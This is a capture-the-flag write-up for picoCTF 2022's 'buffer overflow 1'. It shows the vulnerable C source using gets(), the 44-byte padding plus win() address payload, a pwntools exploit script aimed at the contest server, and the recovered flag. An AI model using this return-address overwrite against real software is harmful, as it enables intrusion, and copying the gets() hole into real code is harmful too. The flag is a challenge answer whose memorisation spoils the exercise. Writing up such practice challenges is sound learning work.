


# picoCTF 2022 buffer overflow 1 (Binary Exploitation 200 points)
The challenge is the following,

 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6.  #include "asm.h"
7. 
8.  #define BUFSIZE 32
9.  #define FLAGSIZE 64
10. 
11. void win() {
12.   char buf[FLAGSIZE];
13.   FILE *f = fopen("flag.txt","r");
14.   if (f == NULL) {
15.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
16.                     "own debugging flag.\n");
17.     exit(0);
18.   }
19. 
20.   fgets(buf,FLAGSIZE,f);
21.   printf(buf);
22. }
23. 
24. void vuln(){
25.   char buf[BUFSIZE];
26.   gets(buf);
27. 
28.   printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
29. }
30. 
31. int main(int argc, char **argv){
32. 
33.   setvbuf(stdout, NULL, _IONBF, 0);
34.   
35.   gid_t gid = getegid();
36.   setresgid(gid, gid, gid);
37. 
38.   puts("Please enter your string: ");
39.   vuln();
40.   return 0;
41. }
```

Here, `gets()` is used in line 26, which is a vulnerable function because it doesn't check for overflow, so I will be exploiting that. I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions`.

 

I saw that `win()` was in `0x080491f6`, so this is the return address that I want to overwrite. I know that 44 bytes can be used to overflow the buffer and rewrite the return address, so I prepared the padding of 44 `A`,

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

I assumed that I needed to swap the endianness for the return address, so I used,

`\xf6\x91\x04\x08`

Then I put everything together into the following [exploit.py](./files/exploit.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 53520)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
a += "\xf6\x91\x04\x08"
io.sendline(a)

io.interactive()

```

I executed this script, which connected to the remote server and inputted the padding and return address,


 


Therefore, the flag is,

`picoCTF{addr3ss3s_ar3_3asy_b9797671}`
